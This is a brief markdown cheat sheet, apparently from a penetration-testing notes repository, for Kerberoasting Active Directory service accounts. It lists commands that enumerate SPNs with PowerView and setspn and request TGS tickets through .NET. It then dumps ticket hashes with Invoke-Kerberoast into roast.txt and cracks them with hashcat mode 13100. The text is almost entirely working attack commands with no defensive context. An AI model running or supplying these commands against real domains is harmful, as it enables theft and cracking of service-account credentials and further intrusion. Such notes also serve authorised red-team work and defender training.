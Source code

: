 # Kerberoast

## Find SPN

### Powerview

```csharp
. .\powerview.ps1
Get-NetUser -SPN
```

### Powershell

```csharp
setspn -T domain -Q */*
```

## Request a TGS

### Powershell

```csharp
Add-Type -AssemblyName system.identitymodel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/lab.domain.local"
```

### Invoke-Kerberoast

```csharp
 Invoke-Kerberoast -OutputFormat John  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
 Invoke-Kerberoast -OutputFormat hashcat  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
```

### Crack

#### Hashcat

```text
hashcat -m 13100 hash.txt dic.lst --force
```

